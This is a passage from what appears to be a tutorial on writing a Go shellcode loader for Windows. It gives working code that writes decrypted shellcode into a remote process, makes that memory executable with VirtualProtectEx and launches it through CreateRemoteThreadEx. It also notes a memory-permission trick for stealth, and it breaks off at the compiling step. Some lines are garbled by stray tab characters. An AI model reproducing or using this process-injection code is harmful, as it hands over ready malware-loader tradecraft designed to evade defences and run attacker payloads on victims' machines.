 Note that to be more stealthy, we create the memory in Read Write only and not Read Write Execute.


### Write the Shellcode

Now, we can write the Deciphered shellcode to the newly allocated memory.

```go
var numByteWritten uintptr
err = windows.WriteProcessMemory(phandle, pShellCodeAddress, &(*ppayloadDecrypted)[0], uintptr(len(*ppayloadDecrypted)), &numByteWritten)
if err != nil {
	fmt.Println("Failed to Wrtie Process Memory")
	fmt.Println(err)
}
```

### Modify Memory Permission

Now that we have the shellcode in the remote process memory, we need to make it executable. We will use `VirtualProtectEx` windows api call. As it is not in the windows package, we will use the previously loaded Lazy DLL of `kernel32.dll`.

```go
var oldProtection uintptr
VirtualProtectEx := kernel32DLL.NewProc("VirtualProtectEx")
_, _, err = VirtualProtectEx.Call(uintptr(phandle), pShellCodeAddress, uintptr(len(*ppayloadDecrypted)), windows.PAGE_EXECUTE_READWRITE, uintptr(unsafe.Pointer(&oldProtection)))
if err != nil && err.Error() != "The operation completed successfully." {
	fmt.Println("Failed to Change Process Memory Protection")
	fmt.Println(err)
}
```

### Creating the Remote Thread

We can than create the remote process using `CreateRemoteProcessEx`

```go	
CreateRemoteThreadEx := kernel32DLL.NewProc("CreateRemoteThreadEx")
_, _,	 err = CreateRemoteThreadEx.Call(uintptr(phandle), 0, 0, pShellCodeAddress, 0, 0, 0)
if er	r != nil {
	fmt	.Println("Failed to Start Thread")
	fmt	.Println(err)
}
```

## Running the Loader - Example

### Compiling

First, we need to compile the previous go code to a PE.

We will use the following:
